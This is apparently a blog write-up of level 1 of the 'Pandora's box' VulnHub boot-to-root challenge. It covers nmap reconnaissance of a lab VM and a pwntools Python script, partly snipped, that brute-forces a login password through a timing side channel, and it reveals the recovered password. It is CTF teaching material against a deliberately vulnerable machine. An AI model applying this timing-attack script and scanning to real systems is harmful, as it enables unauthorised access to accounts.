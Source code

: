 ### Pandoras box Level *1* of *5*

![](https://Cyberguru1.github.io/posts/VulnHub/images/pando_site.png)
---

About:
Pandora's box is a Boot2Root VM focused on binary exploitation and 
reverse engineering. You have to complete all levels to r00t the box. 
Some levels come with a README file which you should read.

---

This is the first level of the challenge, an OVA file is provided in the challenge [link]() booting up the ova file in to VM ware player we have

![](https://Cyberguru1.github.io/posts/VulnHub/images/pando.gif)

after booting up the box, we are left with a prompt to enter username and password, we tried some random guesses with no avail
well this a boot-to-root challenge my first of a kind that has to do with a combination of reveng and binary exploitation, knowing this
let's try and search for the machines IP address and scan for open ports

![](https://Cyberguru1.github.io/posts/VulnHub/images/pando_ip.png)

Using the command `arp -a` we were able to get the machine IP address that I configured the network adapter binded to vmnet1 which we confirmed by comparing the shown macadress with the machine's ip address.

using this ip address let's scan the machine using NMAP we have :

![](https://Cyberguru1.github.io/posts/VulnHub/images/pando_service_scan.png)

we use the NMAP command `sudo nmap -sV -SN -sC 192.168.17.129`, and we got some results, an open port to SSH on port 22/TCP, let's try a deeper scan to scan all port using the `-p-` args to the command we have::

![](https://Cyberguru1.github.io/posts/VulnHub/images/pando_all_scan.png)

doing so we were able to get an additional open port running on port 54311 with service Nagios NSCA

let's try connecting to it using netcat we have ::

![](https://Cyberguru1.github.io/posts/VulnHub/images/pando_login_lvl1.png)

we could see a password prompt asking us for a password, we try some random string with no luck, and then I went to google to do some reconnaissance on possible vulnerabilities for Nagios logging

<div style="width:98px;max-width:100%;"><div style="height:0;padding-bottom:58.16%;position:relative;"><iframe width="98" height="57" style="position:absolute;top:0;left:0;width:100%;height:100%;" frameBorder="0" src="https://imgflip.com/embed/7m974v"></iframe></div><p><a href="https://imgflip.com/gif/7m974v">That eureker moment!!!</a></p></div>

And Whalaaaaa, we found that it's vulnerable to timing attack; In cryptography, a timing attack is a side-channel attack in which the attacker attempts to compromise a cryptosystem by analyzing the time taken to execute cryptographic algorithms. More info [here](https://en.wikipedia.org/wiki/Timing_attack)

Base on this info we could craft a Python script that connects to the remote port on 54311 using pwntools and attempts to guess the password by measuring the time it takes to receive a response from the server.

Abiding to this timing attack principle we have ::

```
#!/usr/bin/python3

from pwn import *
from time import time
from string import *

ip = "192.168.17.129"
port = 54311

sample_space =  ascii_letters + digits

p = remote(ip, port)

<!--snip>
<!--snip>

while not done:
	curr_val = ''
	first = True
	for chars in sample_space:
		current = flag
		current += chars
		ttt = chcktime(current)
		ttt = chcktime(current)
		
		if first:
			min_diff = ttt
			first = False
			
		if ttt < min_diff:
			min_diff = ttt
			curr_val = chars
					
	flag += curr_val
	print(flag)
	p.sendlineafter(b":", flag.encode())
	status = p.recvuntil(b"\n")

	if b"Logged" in status:
		done = True
```

full script [here](https://Cyberguru1.github.io/posts/VulnHub/images/script.py)

Here's a breakdown of the code:

    -The script sets the IP address `(ip)` and port number `(port)` for the remote server.
    -The `sample_space` variable contains a string of ASCII letters and digits, which will be used to construct the password.
    -The script establishes a connection to the remote server using `p = remote(ip, port)`.
    -The `chcktime` function measures the time it takes to receive a response from the server after sending a password attempt. It sends the password attempt, receives the server's response, and calculates the time difference between sending and receiving the response.
    -The main loop of the script repeatedly selects a character from sample_space and appends it to the flag variable. It then measures the time it takes to receive a response from the server after sending the updated password attempt.
    -The script keeps track of the minimum time difference `(min_diff)` and the character that resulted in the minimum time difference `(curr_val)`.
    -After each iteration of the loop, the selected character is appended to the `flag` variable and sent to the server.
    -If the server responds with "Logged in ", indicating that the correct password has been guessed, the loop is terminated.
    -The script prints the current value of `flag` after each iteration to show the progress of the password guessing.

After running the code for a while we have:


<div style="width:98px;max-width:100%;"><div style="height:0;padding-bottom:58.16%;position:relative;"><iframe width="98" height="57" style="position:absolute;top:0;left:0;width:100%;height:100%;" frameBorder="0" src="https://imgflip.com/embed/7m974v"></iframe></div><p><a href="https://Cyberguru1.github.io/posts/VulnHub/images/pando_lvl1_flag.gif">Running the script</a></p></div>

This the final password:

![](https://Cyberguru1.github.io/posts/VulnHub//images/pando_lvl1_flag.png)

we got the password as `R3sp3ctY04r4dm1niSt4t0rL1keYo4R3spectY04rG0d`, using this to login we have

![](https://Cyberguru1.github.io/posts/VulnHub//images/pando_lvl1_sucess.png)

And boooom!!! 

we are in!!!!!.....................

The next solution to level *2* would be dropped soon ..............

Arigato :<^>:
